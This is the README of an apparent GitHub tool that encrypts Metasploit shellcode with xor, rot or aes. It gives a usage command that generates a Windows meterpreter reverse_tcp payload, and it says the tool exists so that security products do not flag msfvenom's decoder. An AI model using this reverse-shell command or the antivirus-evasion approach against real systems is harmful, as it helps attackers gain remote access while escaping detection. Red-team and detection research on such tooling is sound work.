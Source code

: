 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

This is mainly for:
Avoiding getting flagged because of msfvenom builtin decoder which is a red flag for any security solution.

1 - using with a shellcode runner with decryption routine implemented.

2 - DEP with ROP decode and etc..
